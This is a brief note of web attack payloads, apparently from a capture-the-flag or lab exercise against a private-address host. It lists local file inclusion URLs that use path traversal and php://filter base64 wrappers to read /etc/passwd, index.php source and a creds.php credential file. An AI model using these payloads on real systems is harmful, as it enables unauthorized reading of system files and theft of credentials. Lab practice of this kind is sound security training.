 # PHP Filter
- http://10.10.140.225/index.php?err=../../../../../../../../etc/passwd
# PHP to base64
- http://10.10.140.225/index.php?err=php://filter/convert.base64-encode/resource=/etc/passwd
- http://10.10.140.225/index.php?err=php://filter/convert.base64-encode/resource=index.php
- http://10.10.140.225/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php
